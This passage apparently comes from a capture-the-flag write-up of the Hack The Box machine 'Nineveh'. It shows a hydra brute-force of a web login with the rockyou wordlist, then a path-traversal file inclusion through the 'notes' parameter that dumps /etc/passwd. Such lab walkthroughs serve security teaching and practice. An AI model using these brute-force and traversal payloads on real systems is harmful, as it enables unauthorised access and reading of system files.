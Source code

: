 ```bash
luc@kali:~/Documents/Cyber-security/HTB/Nineveh$ hydra nineveh.htb http-form-post "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
...
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
...
```

### Local file inclusion

As a logged in user we can view notes.

```http
GET /department/manage.php?notes=files/ninevehNotes.txt HTTP/1.1

Have you fixed the login page yet! hardcoded username and password is really bad idea!
check your serect folder to get in! figure it out! this is your challenge
Improve the db interface.
~amrois
```

This notes parameter controls what file will be shown on the page so lets play around with that.

Removing the content `files/ninevehNotes` will result in the `No Note is selected.` message from the page, but we can bypass this check by adding our path payload after this path.

```http
GET /department/manage.php?notes=files/ninevehNotes/../../../../../../etc/passwd HTTP/1.1

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
amrois:x:1000:1000:,,,:/home/amrois:/bin/bash
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
```
